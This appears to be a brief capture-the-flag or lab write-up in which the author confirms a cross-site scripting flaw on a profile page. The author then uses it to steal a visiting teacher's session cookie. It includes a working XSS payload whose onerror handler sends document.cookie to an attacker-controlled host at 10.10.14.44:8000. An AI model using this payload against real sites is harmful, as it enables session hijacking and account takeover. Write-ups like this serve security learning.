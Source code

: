 We first try to confirm the vulnerability

>![](imgs/20210518-232825.png)

and it works

>![](imgs/20210518-232850.png)


We know the teacher will visit our profile. So we can exploit this vulnerability and make the teacher kindly send his session cookies to us. 

This time our payload is: `<img src=x onerror=this.src='http://10.10.14.44:8000/?c='+document.cookie>`


We wait a bit and we get 

>![](imgs/20210518-235433.png)
